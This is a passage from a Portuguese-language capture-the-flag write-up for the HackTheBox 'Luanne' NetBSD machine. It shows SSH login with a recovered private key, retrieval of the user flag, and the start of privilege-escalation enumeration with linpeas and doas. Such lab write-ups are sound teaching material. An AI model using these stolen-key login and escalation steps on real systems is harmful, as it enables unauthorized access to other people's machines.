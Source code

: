 ```bash
chmod 600 id_rsa
ssh-keygen -p -m PEM -f ./id_rsa
Key has comment 'r.michaels@luanne.htb'
Enter new passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved with the new passphrase.
```

Com esta chave, o acesso com a conta `r.michaels`foi possível, onde obtivemos o flag de usuário.

```bash
ssh -i id_rsa r.michaels@10.10.10.218
The authenticity of host '10.10.10.218 (10.10.10.218)' can't be established.
ECDSA key fingerprint is SHA256:KB1gw0t+80YeM3PEDp7AjlTqJUN+gdyWKXoCrXn7AZo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.218' (ECDSA) to the list of known hosts.
Last login: Sat Feb 20 07:14:11 2021 from 10.10.14.33
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020
  
Welcome to NetBSD!
  
luanne$ id && pwd && ls -la
uid=1000(r.michaels) gid=100(users) groups=100(users)
/home/r.michaels
total 52
dr-xr-x--- 7 r.michaels users 512 Sep 16 18:20 .
drwxr-xr-x 3 root wheel 512 Sep 14 06:46 ..
-rw-r--r-- 1 r.michaels users 1772 Feb 14 2020 .cshrc
drwx------ 2 r.michaels users 512 Sep 14 17:16 .gnupg
-rw-r--r-- 1 r.michaels users 431 Feb 14 2020 .login
-rw-r--r-- 1 r.michaels users 265 Feb 14 2020 .logout
-rw-r--r-- 1 r.michaels users 1498 Feb 14 2020 .profile
-rw-r--r-- 1 r.michaels users 166 Feb 14 2020 .shrc
dr-x------ 2 r.michaels users 512 Sep 16 16:51 .ssh
dr-xr-xr-x 2 r.michaels users 512 Nov 24 09:26 backups
dr-xr-x--- 4 r.michaels users 512 Sep 16 15:02 devel
dr-x------ 2 r.michaels users 512 Sep 16 16:52 public_html
-r-------- 1 r.michaels users 33 Sep 16 17:16 user.txt
luanne$ cat user.txt
<redacted>
```

## Root flag

No home directory do usuário `r.michaels` encontrada uma pasta chamada backups, que contém um arquivo criptografado **devel_backup-2020-09-16.tar.gz.enc**. Para descriptografá-lo precisamos de uma senha ou chave deste usuário.

Executando o script `linpeas.sh` vi alguns insights interessantes que nos ajudariam a encontrar o caminho para o `root`:

- Usuário r.michaels possui acessos **doas** de execução como `root`, equivalentes ao `sudo` em outras distribuições;
